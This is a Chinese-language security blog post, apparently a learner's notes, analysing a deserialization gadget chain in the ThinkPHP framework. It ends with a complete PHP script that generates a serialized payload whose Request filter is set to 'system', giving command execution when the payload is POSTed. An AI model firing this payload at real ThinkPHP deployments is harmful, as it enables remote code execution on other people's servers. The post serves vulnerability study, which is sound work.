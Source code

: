 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      Thinkphp反序列化利用链深入分析 # 标题 
subtitle:   一些新的思路与手段 #副标题
date:       2019-12-15              # 时间
author:     LessterWong             # 作者
header-img: img/post-bg-universe.jpg   #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - PHP
    - Web
    - Security
---
```


### 前言
>好像稍微拖得有点久了QwQ

第二篇笔记，加油加油！

这次更新时间间隔稍微有点长，表示歉意~目前的学习过程中暴露出很多的问题，如docker工具使用不熟练、问题切入点不好寻找等，php的学习也遇到了瓶颈，慢慢加油吧~没有上过网络礼包的我也要加快网络方面知识的学习了。

这次的工作，是是跟随[https://paper.seebug.org/1040/](https://paper.seebug.org/1040/) 中的内容复现出该漏洞并进行一些探讨和分析。

### Thinkphp 反序列化利用链深入分析
>思路非常的有趣

#### 总体思路
这次我们所面对的同样是一个反序列化的漏洞，由于漏洞触发的代码不在魔术方法中，我们需要和上篇博客中进行一样的操作：构造pop链来将类属性与敏感函数的属性联系起来。在整个过程中，都是以寻找对应的魔术方法作为突破口，不过这次的pop链构造过程略微有些复杂，触发漏洞的过程也有一定的操作难度。

#### 利用链的构建
这个漏洞起始于某个类的__destruct()方法：

```
public function __destruct()
{
    $this->close();
    $this->removeFiles();
}
```

我们追踪到removeFiles函数中，发现内容如下：
```
class Windows extends Pipes
{
    private $files = [];
    ....
    private function removeFiles()
    {
        foreach ($this->files as $filename) {
            if (file_exists($filename)) {
                @unlink($filename);
            }
        }
        $this->files = [];
    }
    ....
}
```

使用了`$this->files`，且`$files`是可控的。作为一个小白，还是不太能够直观的分辨出某一个变量是否是“可控”的，初步理解为这个变量只需要构建特殊的输入就可以拥有我们所希望其拥有的值。初步认为所有具有“$this->”格式的变量都是“可控”的，因为可以直接通过`__construct()`来给该变量赋值。于是我们找到了第一个需要控制的变量`$files`与它的位置 Windows。

而在`removeFiles()`函数中，`file_exist()`函数会将`$filename`当作字符串来处理，因此在这里我们需要寻找一个__toString方法的漏洞来在处理过程中触发。于是我们全局搜索后找到`\thinkphp\library\think\model\concern\Conversion.php`中的`__toString()`函数，沿着里面调用的函数`toJson()`一步一步向下查找，并在Attribute类中找到了`getRelation()`方法，再往下逐层寻找，最终在`getData`函数中找到了利用终点`$this->data[$name]`。data就是我们需要控制的变量之一了。

现在来总结一下：我们需要控制三个变量：类Windows中的`$files`（需要删除的文件路径），类Conversation中的`$append`（一个判断的条件，满足该条件才能进行进一步的函数调用），类Attribute中的`$data`（利用链的终点）。现在所缺的就是通过use关键字来集成类Conversation和类Attribute的一个类(这样就可以在一个类中构造我们的payload)。

通过搜索我们发现了符合条件的类，位于`\thinkphp\library\think\Model.php`：

```
abstract class Model implements \JsonSerializable, \ArrayAccess
{
    use model\concern\Attribute;
    use model\concern\RelationShip;
    use model\concern\ModelEvent;
    use model\concern\TimeStamp;
    use model\concern\Conversion;
    .......
```

#### 代码执行点的分析

通常的思路是再去找一个反序列化的漏洞，而这篇文章中采用了另外的一个方法：尝试覆盖某个功能。当系统尝试去调用这个功能时，会直接跳我们设计的假功能。这里选择了尝试覆盖Request类中的`filter`功能。

在这里找到的首先是`filterValue`函数：

```
  ....
  private function filterValue(&$value, $key, $filters)
    {
        $default = array_pop($filters);

        foreach ($filters as $filter) {
            if (is_callable($filter)) {
                // 调用函数或者方法过滤
                $value = call_user_func($filter, $value);
            }
            .....
```

这里依然是一层一层找漏洞的，但和上面沿着可控的链一直往下找有所区别，这里的思路是一直找直至找到`$value`可控的位置。我们发现了`input`函数中存在`$this->filterValue($data, $name, $filter);`的内容，可以控制`value`的值，而`input`函数的参数本身又是不可控的。于是我们再去寻找可以控制`input`函数参数的函数（好像有点绕）。于是我们用这个思路一路找到了`param`函数、`isAjax`函数。`isAjax`明显是可控的，于是倒推回去是可以控制`input`中的`$name`。这就离控制`filterValue`中的`$value`又近了一步。确实相当的精妙。于是下一个任务就是回到`input`函数中，补上剩下的拼图。

发现`input`函数中：`$data = $this->getData($data, $name);` 我们得到`$value`需要控制`$data`，现在就要控制`$name`。于是再一次进行跟进工作，最后就可以构造出来payload啦。

```
<?php
namespace think;
abstract class Model{
    protected $append = [];
    private $data = [];
    function __construct(){
        $this->append = ["ethan"=>["calc.exe","calc"]];
        $this->data = ["ethan"=>new Request()];
    }
}
class Request
{
    protected $hook = [];
    protected $filter = "system";
    protected $config = [
        // 表单请求类型伪装变量
        'var_method'       => '_method',
        // 表单ajax伪装变量
        'var_ajax'         => '_ajax',
        // 表单pjax伪装变量
        'var_pjax'         => '_pjax',
        // PATHINFO变量名 用于兼容模式
        'var_pathinfo'     => 's',
        // 兼容PATH_INFO获取
        'pathinfo_fetch'   => ['ORIG_PATH_INFO', 'REDIRECT_PATH_INFO', 'REDIRECT_URL'],
        // 默认全局过滤方法 用逗号分隔多个
        'default_filter'   => '',
        // 域名根，如thinkphp.cn
        'url_domain_root'  => '',
        // HTTPS代理标识
        'https_agent_name' => '',
        // IP代理获取标识
        'http_agent_ip'    => 'HTTP_X_REAL_IP',
        // URL伪静态后缀
        'url_html_suffix'  => 'html',
    ];
    function __construct(){
        $this->filter = "system";
        $this->config = ["var_ajax"=>''];
        $this->hook = ["visible"=>[$this,"isAjax"]];
    }
}
namespace think\process\pipes;

use think\model\concern\Conversion;
use think\model\Pivot;
class Windows
{
    private $files = [];

    public function __construct()
    {
        $this->files=[new Pivot()];
    }
}
namespace think\model;

use think\Model;

class Pivot extends Model
{
}
use think\process\pipes\Windows;
echo base64_encode(serialize(new Windows()));
?>
```

把payload通过POST传过去，就可以利用漏洞了。

### 总结
这一次的反序列化过程中，用了两个不太思路完全不同的跟进方法，从两个不同的方向相互靠拢并最终完成了漏洞的利用工作，确实非常的精妙，给我提供了很多新的思路。
